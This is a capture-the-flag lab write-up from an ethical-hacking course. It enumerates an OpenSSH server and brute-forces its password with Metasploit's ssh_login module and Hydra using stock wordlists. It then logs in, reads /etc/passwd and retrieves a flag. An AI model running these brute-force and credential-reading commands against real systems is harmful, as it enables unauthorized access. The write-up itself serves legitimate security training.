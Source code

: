 # 🔬SSH

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [SSH Login](https://attackdefense.com/challengedetails?cid=1526)
>
> * Target IP: `192.142.193.3`
> * **Brute-force** of [OpenSSH](https://www.openssh.com/) server
> * **Enumeration and nmap scripts** have been already covered in this [SSH Enum lab](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration/ssh-enum)

### Enumeration <a href="#enumeration" id="enumeration"></a>

```bash
ip -br a
nmap -sn 192.142.193.0/24
```

<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
nmap -sV 192.142.193.3
```

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2024-07-19 08:32 UTC
Nmap scan report for target-1 (192.142.193.3)
Host is up (0.0000090s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
MAC Address: 02:42:C0:8E:C1:03 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> OpenSSH 7.9p1 cannot be exploited directly

```bash
msfconsole -q

msf5 > use auxiliary/scanner/ssh/ssh_version 
msf5 auxiliary(scanner/ssh/ssh_version) > show options
msf5 auxiliary(scanner/ssh/ssh_version) > set RHOSTS 192.142.193.3
msf5 auxiliary(scanner/ssh/ssh_version) > run

[+] 192.142.193.3:22      - SSH server version: SSH-2.0-OpenSSH_7.9p1 Ubuntu-10 ( service.version=7.9p1 openssh.comment=Ubuntu-10 service.vendor=OpenBSD service.family=OpenSSH service.product=OpenSSH service.cpe23=cpe:/a:openbsd:openssh:7.9p1 os.vendor=Ubuntu os.family=Linux os.product=Linux os.version=19.04 os.cpe23=cpe:/o:canonical:ubuntu_linux:19.04 service.protocol=ssh fingerprint_db=ssh.banner )
[*] 192.142.193.3:22      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Brute-Force - Metasploit <a href="#brute-force" id="brute-force"></a>

* Metasploit `ssh_login` module or `Hydra` tool can be utilized for brute forcing the SSH password

```bash
msf5 auxiliary(scanner/ssh/ssh_version) > use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > show options
msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.142.193.3
msf5 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
msf5 auxiliary(scanner/ssh/ssh_login) > exploit 
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Brute-Froce - Hydra

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt -t4 192.142.193.3 ssh
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Login to the target via SSH

```bash
ssh sysadmin@192.63.218.3
```

```bash
groups sysadmin
cat /etc/*release
uname -r
cat /etc/passwd
find / -name "flag"
cat /flag
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `eb09cc6f1cd72756da145892892fbf5a`
{% endhint %}

